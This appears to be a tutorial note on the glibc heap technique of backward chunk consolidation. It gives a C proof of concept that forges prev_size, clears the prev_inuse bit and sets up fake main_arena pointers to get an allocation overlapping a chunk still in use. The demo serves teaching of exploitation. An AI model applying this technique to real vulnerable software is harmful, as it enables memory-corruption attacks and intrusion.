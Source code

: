 <details>
<summary><strong>Description</strong></summary>
<p>

so in this instance, we will consolidate a chunk backwards, instead of forwards... 

with forward consolidation, we created fake chunks, and consolidated those. In this instance, we will consolidate existing chunks...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {

    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *chunk2, *consolidated_chunk;

    chunk0 = malloc(0x20);
    chunk1 = malloc(0x420); // backward consolidate chunk1 into chunk0
    chunk2 = malloc(0x20); // this chunk stored fake main_arena

    chunk1[-2] = (0x20 + 0x10); // fake chunk1's prev_size (equal to chunk0's size)

    /*VULNERABILITY*/
    chunk1[-1] = (0x420 + 0x10); // turn off prev_inuse bit of chunk1's size field
    /*VULNERABILITY*/

    // set up fake arena (there is no side effect, bins mechanics act normal, this is needed to bypass mitigations during consolidation)
    chunk0[0] = (long)chunk2; // set our fwd/bk ptrs chunk0 to chunk2 (fake main_arena)
    chunk0[1] = (long)chunk2;

    chunk2[2] = (long)&chunk0[-2]; // set our fwd/bk ptrs for our fake main_arena to chunk0
    chunk2[3] = (long)&chunk0[-2];

    free(chunk1); // trigger backward consolidation
    consolidated_chunk = malloc((0x420 + 0x10) + (0x20 + 0x10) - 0x10 + 8); // allocate chunk from unsortebin, becareful the request size..

    printf("consolidated chunk: %p\n", consolidated_chunk);
    printf("chunk0 (still in use): %p\n", chunk0);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/bk_consolidation/readme.md

</p>
</details>